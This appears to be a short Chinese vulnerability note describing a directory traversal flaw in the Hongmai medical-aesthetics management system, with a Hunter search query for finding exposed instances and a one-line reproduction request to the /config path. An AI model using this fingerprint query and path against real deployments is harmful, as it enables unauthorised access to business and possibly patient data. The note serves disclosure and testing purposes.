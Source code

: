 # 宏脉医美行业管理系统config存在目录遍历漏洞

# 一、漏洞简介
宏脉医美行业管理系统是由宏脉信息技术（广州）股份有限公司开发的一款服务于医美行业管理服务的系统.宏脉医美行业管理系统config存在目录遍历漏洞

# 二、影响版本
+ 宏脉医美行业管理系统

# 三、资产测绘
+ hunter`web.title="宏脉医美行业管理系统"`
+ 特征

![1704262762802-ebd6b894-53ce-40a3-b2bb-ac6ab6dec428.png](./img/rNM2nXI92D5k_q50/1704262762802-ebd6b894-53ce-40a3-b2bb-ac6ab6dec428-973442.png)

# 四、漏洞复现
```plain
/config
```

![1706786956453-a3b09163-fd17-47ea-ab3e-99f586bc9e0a.png](./img/rNM2nXI92D5k_q50/1706786956453-a3b09163-fd17-47ea-ab3e-99f586bc9e0a-778894.png)



> 更新: 2024-02-29 23:55:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/era5zxcl98y54nu2>